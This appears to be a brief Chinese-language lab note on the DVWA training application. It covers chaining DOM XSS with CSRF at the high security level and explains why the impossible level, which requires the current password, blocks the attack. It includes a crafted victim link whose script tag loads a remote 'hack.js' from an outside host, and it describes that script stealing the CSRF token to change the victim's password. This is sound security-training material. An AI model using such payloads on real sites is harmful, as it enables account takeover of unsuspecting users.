 dom xss level:high 的頁面有xss漏洞。xss載入遠端腳本。

發給受害者

```
http://www.dvwa.com/vulnerabilities/xss_d/?default=#<script src="http://www.k.com/hack.js"</script>
```


模擬:

受害者登入dvwa --> 後收到了來自 hacker給的link --> 點擊就會進入xss dom high 的頁面

--> 這個頁面是有xss的，所以載入了外部hack.js --> 這個hack.js 會先拿到token 在改變密碼。



<br/><br/>


# Impossible



code:
* 多了一個 password_current 也就是目前密碼
也就是說hacker 不能在無腦偽造了，因為就算xss 拿到了token 我們也不知道當前使用者的密碼。
```php=
    $pass_curr = $_GET[ 'password_current' ];
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

```

無解。



<br/><br/><br/><br/>




























